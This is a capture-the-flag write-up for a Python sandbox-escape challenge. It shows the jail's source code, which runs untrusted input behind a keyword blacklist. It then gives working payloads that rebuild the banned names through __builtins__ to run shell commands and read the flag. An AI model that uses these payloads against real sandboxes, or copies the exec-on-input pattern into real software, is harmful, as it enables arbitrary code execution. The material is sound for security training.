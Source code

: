 # PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc 192.168.8.136 10014

## Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

```python

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```


## Blacklist & Execution
Blacklisted substrings: <span style="background-color: yellow">"os", "import", "flag", "system"</span>


The input is injected into a dynamically constructed string and executed via:

python3 -c "<user_input>"
Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for "__import__" or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


## Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

## Working Payloads
### Step 1: List the directory to confirm the flag file

``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')``

Output:
flag.txt
run

### Step 2: Read the flag
(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}










